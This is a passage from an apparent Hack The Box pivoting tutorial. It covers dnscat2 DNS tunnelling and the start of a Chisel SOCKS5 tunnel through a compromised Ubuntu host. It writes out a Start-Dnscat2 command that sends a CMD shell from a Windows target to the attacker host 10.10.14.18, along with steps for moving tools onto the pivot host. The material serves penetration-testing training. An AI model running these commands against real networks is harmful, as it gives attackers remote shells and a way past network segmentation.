 Once the `dnscat2.ps1` file is on the target we can import it and run associated cmd-lets.

```powershell
PS C:\htb> Import-Module .\dnscat2.ps1
```

After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

```powershell
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

We must use the pre-shared secret (`-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

We can list the options we have with dnscat2 by entering `?` at the prompt.

```shell
dnscat2> ?
```

We can use dnscat2 to interact with sessions and move further in a target environment on engagements. We will not cover all possibilities with dnscat2 in this module, but it is strongly encouraged to practice with it and maybe even find creative ways to use it on an engagement. Let's interact with our established session and drop into a shell.'

##### Interacting with the Established Session

```shell
dnscat2> window -i 1
```

---

# 

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. `Chisel` can create a client-server tunnel connection in a firewall restricted environment. Let us consider a scenario where we have to tunnel our traffic to a webserver on the `172.16.5.0`/`23` network (internal network). We have the Domain Controller with the address `172.16.5.19`. This is not directly accessible to our attack host since our attack host and the domain controller belong to different network segments. However, since we have compromised the Ubuntu server, we can start a Chisel server on it that will listen on a specific port and forward our traffic to the internal network through the established tunnel.

##### Transferring Chisel Binary to Pivot Host

```shell
c4ndy@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
```

##### Running the Chisel Server on the Pivot Host 

```shell
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```
